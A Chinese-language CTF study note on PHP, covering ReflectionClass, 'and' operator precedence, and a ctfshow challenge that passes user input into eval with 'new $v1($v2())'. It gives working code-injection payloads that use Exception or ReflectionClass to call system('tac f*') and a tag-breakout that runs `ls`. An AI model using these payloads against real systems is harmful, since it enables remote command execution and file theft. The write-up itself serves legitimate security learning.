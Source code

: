 下面来简单了解一下反射的相关定义与函数，感觉[官方文档](https://www.php.net/manual/zh/class.reflectionclass.php)很详细,自己点开学习一下即可

所以得到`payload:?v1=1&v2=echo new ReflectionClass&v3=;`

其实还有很多种方法，因为过滤比较少，比如`v1=1&v2=?><?php echo `ls`?>/*&v3=;*/`，或者来个include加伪协议绕过也行

## and优先级

```php
$a = true and false;
var_dump(true and false);
var_dump($a);
最后输出的结果居然是：！！！
bool(false)：：相当于是($a = true) and false;
bool(true)
```

附上：[运算符优先级](https://www.php.net/manual/zh/language.operators.precedence.php)

## php 异常类

还是从ctfshow当中一道题学习

```php
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}
```

先来看下这个正则表达式`/[a-zA-Z]+/` 匹配**至少有一个字母**的字符串
所以我们只要让new后面有个类不报错以后，就可以随意构造了。我们随便找个php中的内置类并且可以直接echo输出的就可以了。
举两个例子

```php
Exception
ReflectionClass
```

答案举例

```php
payload:
v1=Exception();system('tac f*');//&v2=a
v1=ReflectionClass&v2=system('tac f*')
```

## FilesystemIterator类的使用

有时候我们就可以利用这个函数遍历当前目录或者看情况其他目录
